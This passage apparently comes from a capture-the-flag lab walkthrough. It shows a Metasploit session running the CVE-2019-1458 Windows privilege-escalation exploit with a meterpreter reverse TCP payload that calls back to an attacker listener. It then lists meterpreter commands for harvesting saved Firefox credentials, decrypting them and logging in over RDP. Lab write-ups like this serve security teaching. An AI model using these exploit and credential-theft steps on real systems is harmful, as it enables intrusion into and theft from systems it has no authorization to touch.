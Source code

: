        Id  Name
       --  ----
       0   Windows 7 x64

    View the full module info with the info, or info -d command.
    
    msf6 exploit(windows/local/cve_2019_1458_wizardopium) > set SESSION 1
    SESSION => 1
    msf6 exploit(windows/local/cve_2019_1458_wizardopium) > set lhost tun0
    lhost => tun0
    msf6 exploit(windows/local/cve_2019_1458_wizardopium) > show options
    
    Module options (exploit/windows/local/cve_2019_1458_wizardopium):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION  1                yes       The session to run this module on

    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thr
                                            ead, process, none)
       LHOST     tun0             yes       The listen address (an interface may b
                                            e specified)
       LPORT     4444             yes       The listen port

    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 7 x64

    View the full module info with the info, or info -d command.
    
    msf6 exploit(windows/local/cve_2019_1458_wizardopium) > exploit
    
    [*] Started reverse TCP handler on 10.18.22.77:4444 
    [*] Running automatic check ("set AutoCheck false" to disable)
    [+] The target appears to be vulnerable.
    [*] Triggering the exploit...
    [*] Launching msiexec to host the DLL...
    [+] Process 1872 launched.
    [*] Reflectively injecting the DLL into 1872...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Exploit completed, but no session was created.

O dear. Back to the drawing board. Ah.

```text
meterpreter > run post/windows/gather/enum_applications
meterpreter > run post/windows/gather/firefox_creds
```

Then use the [Firefox Decrypt tool from Github](https://github.com/unode/firefox_decrypt), and log in to the `mayor` 
account using `xfreerdp`. The flag is on mayor's Desktop.
